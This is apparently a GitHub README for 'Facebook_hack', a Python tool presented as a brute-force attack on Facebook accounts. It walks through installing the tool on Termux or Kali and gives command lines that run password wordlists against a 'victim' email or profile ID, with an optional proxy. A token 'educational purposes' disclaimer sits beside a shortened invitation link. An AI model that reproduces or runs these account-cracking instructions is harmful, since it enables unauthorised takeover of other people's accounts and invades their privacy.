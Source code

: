 
# Facebook_hack
https://www.facebook.com/dayzielynnbaby
![PicsArt_22-06-08_16-34-50-148](https://user-images.githubusercontent.com/70594016/172602116-20012d77-f4c2-45a6-a5fb-391f683c0f05.png)
###### Powerfull Facebook Bruteforce Attack.
***
### <p align="center">Commands to run tool in ur terminal Termux && Kali Linux
***

 ```bash
Note : Tool is Made of Educational Purposes only.
       Please try not to harm anyone device 
       it's For Fun Purpose Not For Revenge
       (Join Us https://bit.ly/3PV3S3r)
```
## Language is used to Make this tool
- Python
  
## The Tool is for :
- Windows
- Kali Linux
- Android~Termux
- macOs
- any Os has python(2.x, 3.x) with required modules

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/hackerxphantom/Facebook_hack.git
```
```bash
cd Facebook_hack
```
```bash
bash setup
```
```bash
python facebook_hack.py
```

## usage :-
  - **U can Use Victim email Or Facebook Profile Id**:
  
  - **Brute Force On Facebook Account Without proxy**:
  
  * **Command**: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt
  
  - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129
    
    - **Get Target Facebook Profile ID**:
  
   
    * **Command**: python facebook_hack.py -g https://www.facebook.com/zuck
  
